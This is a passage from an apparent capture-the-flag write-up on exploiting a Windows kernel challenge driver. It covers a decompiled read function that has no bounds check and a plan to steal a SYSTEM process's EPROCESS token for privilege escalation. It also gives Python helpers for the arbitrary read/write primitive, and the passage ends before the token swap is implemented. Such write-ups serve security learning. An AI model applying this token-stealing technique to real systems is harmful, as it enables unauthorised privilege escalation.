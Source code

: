 ```cpp  
unsigned __int64 __fastcall ReadEntry(unsigned __int64 offset)  
{  
 return *(_QWORD *)(secret_store + 8 * offset);  
}  
```

#### Conclusion

As we clearly see there are no checks for the entry offsets, which means that
we could provide any data we want and read/write at any offsets from the
allocated pool we want.

## Exploit idea

The game plan here is that we are going to:

* Obtain the kernel base (that it prints for us)

* Obtain the process id (that it prints for us too)

* Read the EPROCESS of any system process that has privileged permissions(i.e read any file it wants)

* Find the EPROCESS of our process

* Swap the EPROCESS Token in our process with the systems one 

## Implementation

For the kernel base and process id we just need to read the input that the app
is sending us

```py  
kernel_base = int(io.recvline().decode().split(': ')[1], 16)  
process_id: int = int(io.recvline().decode().split(': ')[1])  
```

For the write/read functions we would need to pass an offset from the
allocated pool and the kernel part would automatically multiply this value by
8, so we should account for it in our calculations. \  
To make my life a bit easier i made these utils to interact with the user-mode
challenge part

```py  
def skip_options():  
   io.recvuntil(b'an option\r\n')

def read_at(off: int) -> int:  
   assert(off % 8 == 0)

   io.sendline(b'2')  
   io.recvline()  
   io.sendline(str(off // 8).encode())  
   io.recvline()  
   io.recvline()  
   v = int(io.recvline().decode().split('ead ')[1].strip())

   skip_options()  
   return v

def write_to(off: int, val: int) -> None:  
   assert(off % 8 == 0)

   io.sendline(b'1')  
   io.recvline()  
   io.sendline(str(off // 8).encode())  
   io.recvline()  
```